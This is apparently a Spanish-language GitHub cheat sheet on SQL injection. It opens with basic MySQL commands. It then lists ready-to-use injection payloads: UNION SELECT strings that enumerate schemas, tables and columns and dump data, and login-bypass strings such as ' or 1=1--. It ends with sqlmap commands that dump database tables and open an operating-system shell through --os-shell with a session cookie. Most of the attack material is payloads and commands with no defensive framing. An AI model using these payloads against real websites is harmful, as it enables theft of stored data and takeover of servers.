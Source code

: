 # SQL INJECTION

### Comandos Basicos de MySQL

``CREATE DATABASE <NOMBRE_DB>;``

``SHOW DATABASES;``

``USE <NOMBRE_DB>;``

``CREATE TABLE <NOMBRE_TABLA>(COLUMNA1 TIPO, COLUMNA2 TIPO, COLUMNA3 TIPO);``

> Los tipos de campos dentro de las tablas son: int(32) = Numeros Enteros, varchar(32) = Caracteres, char(80), longtext

``SHOW TABLES;``

``DESCRIBE <NOMBRE_TABLA>;`` --> Ver Columnas de una Tabla

``SELECT <COLUMNA1,COLUMNA2> FROM <NOMBRE_TABLA>;`` --> Muestra los datos de una Tabla

``SELECT <COLUMNA1,COLUMNA2> FROM <NOMBRE_TABLA> WHERE <COLUMNA1>='DATO';`` --> Para filtrar por un dato especifico

``SELECT * FROM <NOMBRE_TABLA>;`` --> Muestra todos los datos de una Tabla

``CREATE USER 'NOMBRE'@'IP' IDENTIFIED BY 'PASSWORD';``

``GRANT ALL PRIVILEGES ON NOMBRE_DB.* TO 'USUARIO'@'IP';``

<br>

### Querys para SQL Injection

``valor' ORDER BY 100'-- -`` --> Ayuda a identificar el numero de columnas

``valor' UNION SELECT database()-- -``

``valor' UNION SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata -- -`` --> Si tiene una sola columna

``valor' UNION SELECT GROUP_CONCAT(schema_name), NULL, NULL FROM information_schema.schemata -- -`` --> Si se identifico que tiene varias columnas un NULL por cada columna

``valor' UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='nombre_db' -- -``

``valor' UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema='nombre_db' AND table_name='tabla' -- -``

``valor' UNION SELECT GROUP_CONCAT(columna) FROM nombre_db.tabla -- -``

``admin' --``

``admin' #``

``admin'/*``

``' or 1=1--``

``' or 1=1#``

``' or 1=1/*``

``') or '1'='1--``

``') or ('1'='1—``

<br>

### Injeccion de SQL con SQLMAP

> Para el uso de SQLMAP se puede capturar una peticion POST y guardarla en un archivo .req o identificar los campos inyectables en una url

``sqlmap -r <archivo.req> -p <nombre_payload o campo_inyectable> --batch`` --> Para identificar rapidamente si es inyectable o no

``sqlmap -r <archivo.req> -p <nombre_payload o campo_inyectable> --dbs --batch`` --> Para listar bases de datos

``sqlmap -r <archivo.req> -p <nombre_payload o campo_inyectable> -D <nombre_db> --tables`` --> Para ver las tablas

``sqlmap -r <archivo.req> -p <nombre_payload o campo_inyectable> -D <nombre_db> -T <nombre_tabla> --columns`` --> Para ver las columnas de una tabla

``sqlmap -r <archivo.req> -p <nombre_payload o campo_inyectable> -D <nombre_db> -T <nombre_tabla> -C <col1,col2,col3> --dump`` --> Para volcar todos los campos de una tabla

<br>

> En SQLMAP tambien se puede usar la url directamente e incluso pasarle una cookie de sesion

``sqlmap -u "URL" --cookie="PHPSESSID=a8d127e.." --os-shell`` --> El parametro *--os-shell* permite abrir una shell interactiva del sistema operativo
